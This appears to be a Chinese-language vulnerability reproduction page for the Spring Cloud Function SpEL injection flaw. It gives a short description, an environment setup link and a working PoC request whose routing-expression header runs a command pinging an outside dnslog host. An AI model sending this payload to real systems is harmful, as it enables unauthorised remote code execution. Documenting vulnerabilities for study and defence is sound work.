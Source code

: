 # Spring Cloud Function SPEL 远程命令执行漏洞

## 漏洞描述

Spring Cloud Function 是基于Spring Boot 的函数计算框架，它抽象出所有传输细节和基础架构，允许开发人员保留所有熟悉的工具和流程，并专注于业务逻辑。 由于Spring Cloud Function中RoutingFunction类的apply方法将请求头中的“spring.cloud.function.routing-expression”参数作为Spel表达式进行处理，造成了Spel表达式注入漏洞，未经授权的远程攻击者可利用该漏洞执行任意代码。

## 漏洞影响

<a-checkbox checked>Spring Cloud Function </a-checkbox></br>

## 环境搭建

```php
https://github.com/spring-cloud/spring-cloud-function/tree/main/spring-cloud-function-samples/function-sample-pojo
```

## 漏洞复现

搭建后访问

![img](../../../.vuepress/public/img/1648445963507-0e8edf45-ca97-444a-b9f2-6e1ce7a1c838.png)

发送POC

```php
POST /functionRouter HTTP/1.1
Host: 192.168.1.27:9000
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("ping -c 1 dxytoy.dnslog.cn")
Content-Length: 1
```

![img](../../../.vuepress/public/img/1648446987819-85f1a250-ed53-4794-9168-286030887cc4.png)